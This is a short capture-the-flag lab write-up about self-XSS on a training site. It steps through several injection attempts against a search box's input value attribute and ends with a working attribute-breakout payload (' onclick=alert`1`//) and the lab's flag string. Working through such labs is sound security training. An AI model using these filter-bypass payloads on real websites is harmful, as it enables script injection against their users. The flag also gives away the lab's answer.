


# Lab 9.1 Self-XSS

## 0x00 Basic Knowledge

The cause for XSS is that computers cannot distinguish user input and original web data. User can insert JavaScript to a web page but only for current session and not affect other users is self-xss.

But attackers may generate a short link to phishing ang steal others secret data.

## 0x01 Go Hack It

Lab site from [zkaq.org][1]

### [Home Page][2]



### Inject Point

```html
<script>alert`1`</script>
```


Nothing happens because some of the marks are converted to a safety format.

```html
<h2 align="center">没有找到和&lt;script&gt;alert`1`&lt;/script&gt;相关的结果.</h2>
```

So nothing to do with the show up result.

But the input element still keeps the original tags.

```html
<input name="keyword" value="<script>alert`1`</script>">
```

So we can keep try modify something here.

### Close Qutation Marks

Close the previous element and comment out the following.

```html
"><script>alert`1`</script>//
```

However, the qutation mark is also converted to html version.

```html
<input name="keyword" value="&quot;><script>alert`1`</script>//">
```

### Try Single Qutation Mark

```html
'><script>alert`1`</script>//
```

This time the value disappeared but <> are also converted.

```html
<input name="keyword" value="" &gt;&lt;script&gt;alert`1`&lt;="" script&gt;="" '="">
```


### onclick

Use onclick action to cover js inside of the input element.

```html
' onclick=alert`1`//
```

The result looks good.

```html
<input name="keyword" value="" onclick="alert`1`//'">
```

### FLAG

When click on the input area, FLAG = flag{zkaq-xssgood-Q0OA} pops up.



[1]: https://hack.zkaq.org/?a=battle&f=target&id=7b4070f149f3fe5d
[2]: http://117.41.229.122:8002/xss/index.php
